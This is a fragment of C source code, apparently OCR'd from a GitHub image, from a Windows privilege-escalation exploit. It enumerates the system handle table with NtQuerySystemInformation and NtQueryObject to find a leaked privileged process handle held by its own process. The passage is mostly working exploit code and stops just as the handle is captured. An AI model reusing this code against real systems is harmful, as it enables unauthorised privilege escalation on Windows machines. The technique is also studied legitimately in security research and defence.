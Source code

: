 ```c
{
printf("[!] NtQuerySystemInformation failed!\n");
return 0;
}

printf("done.\n[+] Fetched %d handles.\n", phHandleInfo->NumberOfHandles);

// iterate handles until we find the privileged process handle
for (int i = 0; i < phHandleInfo->NumberOfHandles; ++i)
{
SYSTEM_HANDLE_TABLE_ENTRY_INFO handle = phHandleInfo->Handles[i];

// Check if this handle belongs to our own process
if (handle.UniqueProcessId != dwOwnPID)
continue;

objectTypeInfo = (POBJECT_TYPE_INFORMATION) malloc(0x1000);
if (pNtQueryObject( (HANDLE) handle.HandleValue,
ObjectTypeInformation,
objectTypeInfo,
0x1000,
NULL ) != STATUS_SUCCESS)
continue;

// skip some objects to avoid getting stuck
// see: https://github.com/adamdriscoll/PoshInternals/issues/7
if (handle.GrantedAccess == 0x0012019f
&& handle.GrantedAccess != 0x00120189
&& handle.GrantedAccess != 0x120089
&& handle.GrantedAccess != 0x1A019F ) {
free(objectTypeInfo);
continue;
}

// get object name information
objectNameInfo = malloc(0x1000);
if (pNtQueryObject( (HANDLE) handle.HandleValue,
ObjectNameInformation,
objectNameInfo,
0x1000,
&returnLength ) != STATUS_SUCCESS) {

// adjust the size of a returned object and query again
objectNameInfo = realloc(objectNameInfo, returnLength);
if (pNtQueryObject( (HANDLE) handle.HandleValue,
ObjectNameInformation,
objectNameInfo,
returnLength,
NULL ) != STATUS_SUCCESS) {
free(objectTypeInfo);
free(objectNameInfo);
continue;
}
}

// check if we've got a process object
objectName = *(PUNICODE_STRING) objectNameInfo;
UNICODE_STRING pProcess;

pRtlInitUnicodeString(&pProcess, L"Process");
if (pRtlEqualUnicodeString(&objectTypeInfo->TypeName, &pProcess, TRUE)) {
printf("[+] Found process handle (%x)\n", handle.HandleValue);
hProc = (HANDLE) handle.HandleValue;
```